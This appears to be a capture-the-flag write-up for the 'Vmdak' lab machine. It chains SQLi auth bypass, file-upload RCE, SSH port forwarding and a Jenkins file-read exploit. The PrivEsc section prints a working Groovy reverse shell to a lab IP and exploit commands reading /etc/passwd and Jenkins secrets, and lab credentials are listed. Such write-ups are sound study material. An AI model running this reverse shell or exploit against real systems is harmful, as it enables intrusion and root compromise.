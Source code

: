 # Vmdak \[Inter]

## Report

FTP server hosts a config.xml for a Jenkins version vulnerable to file read, it also mentions path to root password for install

Fast5 Prison Management System running on port 9443 is vulnerable to auth bypass via SQLi, it is also vulnerable to RCE via insecure file upload of profile pictures for users. We also find a password in the leave record. Exploit to get reverse shell as www-data.

Find user 'vmdak' and use the password we found earlier. A port 8080 is found via netstat and port forward to get access to Jenkins instance. Fetch root password via file read exploit for Jenkins found from FTP and run Groovy reverse shell script to become root.

## Loot

### Enumeration

192.168.106.103

21, 22, 80, 9443

#### 21 (FTP)

config.xml -> Jenkins 2.401.2

```
<InitialRootPassword>/root/.jenkins/secrets/initialAdminPassword></InitialRootPassword>
```

#### 80

Nothing

#### 9443 (HTTPS)

Fast5 Prison Management System

* admin.php, no employee login

### Attack Vectors

Fast5 Prison Management System&#x20;

* SQLi Auth bypass
* Get creds&#x20;
* RCE via file upload to get shell as www-data

<figure><img src="../../.gitbook/assets/image (18).png" alt=""><figcaption></figcaption></figure>

### PrivEsc

```
ssh -L 8080:127.0.0.1:8080 vmdak@192.168.106.103
python3 51993.py -u http://127.0.0.1:8080
/etc/passwd [PoC first always]
/root/.jenkins/secrets/initialAdminPassword

Finish Jenkins setup
Execute groovy revshell script
String host="192.168.45.236";int port=80;String cmd="/bin/sh";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close()
```

### Creds

`admin:admin123 (Caroline Bassey)`

`vmdak:RonnyCache001`

### Proof

{% embed url="https://github.com/Aa1b/mycve/blob/main/Readme.md" %}

{% embed url="https://github.com/xaitax/CVE-2024-23897" %}
